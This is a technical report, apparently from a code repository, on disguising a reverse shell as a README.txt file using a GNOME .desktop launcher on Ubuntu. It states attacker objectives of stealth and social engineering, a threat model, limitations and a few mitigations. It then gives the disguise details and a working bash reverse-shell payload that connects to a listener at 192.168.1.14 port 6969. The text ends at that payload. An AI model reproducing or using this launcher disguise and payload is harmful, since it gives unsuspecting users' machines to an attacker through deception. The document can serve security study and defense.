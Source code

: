 # Technical Report: Reverse Shell Delivery via `.desktop` Launcher

## Overview

This report documents the creation, behavior, and deployment of a user-level reverse shell payload disguised as an innocent-looking file named `README.txt`. The file is implemented using a `.desktop` launcher file on Ubuntu, designed to socially engineer a user into executing it.

---

## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)  
- The user allows execution of `.desktop` files from their Desktop  
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)  

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked  
- Easily readable and discoverable if inspected manually  

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Harden user awareness through training against disguised file traps  
- Enable AppArmor/SELinux rules that restrict arbitrary shell access  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
